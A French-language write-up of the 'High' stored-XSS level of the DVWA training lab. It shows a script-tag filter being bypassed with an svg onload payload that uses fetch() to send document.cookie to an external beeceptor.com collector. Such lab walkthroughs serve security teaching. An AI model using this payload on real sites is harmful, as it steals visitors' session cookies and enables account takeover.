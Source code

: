# Niveau "High"

Ici contrairement au niveau "Medium", le champ "Name" semble posséder un filtrage plus fort que le champ "Message" car plus rien ne s'affiche mis à part un malheureux petit chevron `">"` :

![](../../../../.gitbook/assets/2448376e94cf4ccfb07b40a5ca550901.png)

Si le filtrage s'effectue seulement sur les balises `<script>` `</script>`, il est fort probable que la balise `<svg>` soit toujours utilisable :

![](../../../../.gitbook/assets/1c414ec534804f56590077f87b46f6a6.png)

C'est bien le cas, j'ajoute ma payload de vol de cookies :

```markup
<svg onload="fetch('https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie);">
```

![](../../../../.gitbook/assets/93fdbc43b069de2a852b36435ee8ef1e.png)

Lorsqu'un visiteur lira le message, mon serveur malicieux listera les cookies reçues :

![](../../../../.gitbook/assets/6ac757d465641780b382d68c799f214f.png)
